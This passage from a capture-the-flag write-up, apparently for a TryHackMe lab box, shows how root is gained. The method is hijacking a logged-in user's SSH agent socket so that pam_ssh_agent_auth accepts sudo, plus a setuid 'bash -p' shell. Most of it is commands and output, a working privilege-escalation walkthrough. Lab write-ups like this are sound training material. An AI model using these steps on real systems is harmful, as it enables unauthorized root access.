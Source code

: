 ```zsh
kyle@seasurfer:~$ /bin/bash -p
bash-5.0# whoami
root
```

### root, method 2
After some enumeration on the box, we found out that **PAM** for `sudo` has been configured to accept `SSH` keys:

```zsh
kyle@seasurfer:~$ cat /etc/pam.d/sudo
#%PAM-1.0

auth sufficient pam_ssh_agent_auth.so file=/etc/ssh/sudo_authorized_keys

session    required   pam_env.so readenv=1 user_readenv=0
session    required   pam_env.so readenv=1 envfile=/etc/default/locale user_readenv=0
@include common-auth
@include common-account
@include common-session-noninteractive
```

Furthermore, **Kyle** has `ssh`'d into the box and used `sudo`:

```zsh
kyle@seasurfer:~$ ps aux
...
kyle        1059  0.0  0.3  13920  3256 ?        S    14:36   0:00 sshd: kyle@pts/0
kyle        1060  0.0  0.2   6892  2036 pts/0    Ss+  14:36   0:00 bash -c sudo /root/admincheck; sleep infinity
...
```

Finally, we found an `SSH` agent socket file for the shell process we can access:

```zsh
kyle@seasurfer:~$ ls -lpah /tmp/ssh-I2y4KwPuPD/agent.1059 
srwxrwxr-x 1 kyle kyle 0 Jun 18 14:36 /tmp/ssh-I2y4KwPuPD/agent.1059
```

After reading up a bit on `pam_ssh_agent_auth` [here](https://manpages.ubuntu.com/manpages/bionic/man8/pam_ssh_agent_auth.8.html), we understood that all we have to do is add the `SSH_AUTH_SOCK` and location to our environment variable and **PAM** would let us use `sudo`:

```zsh
kyle@seasurfer:~$ export SSH_AUTH_SOCK=/tmp/ssh-I2y4KwPuPD/agent.1059
kyle@seasurfer:~$ ssh-add -l
3072 SHA256:boZASmxRncp8AM+gt1toNuZr9jh1dyatwf9DPZYit88 kyle@seasurfer (RSA)
kyle@seasurfer:~$ sudo -l
Matching Defaults entries for kyle on seasurfer:
    env_keep+=SSH_AUTH_SOCK, env_reset, timestamp_timeout=420, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kyle may run the following commands on seasurfer:
    (ALL : ALL) ALL
kyle@seasurfer:~$ sudo -s
root@seasurfer:/home/kyle# cat /root/root.txt
THM{REDACTED}
```
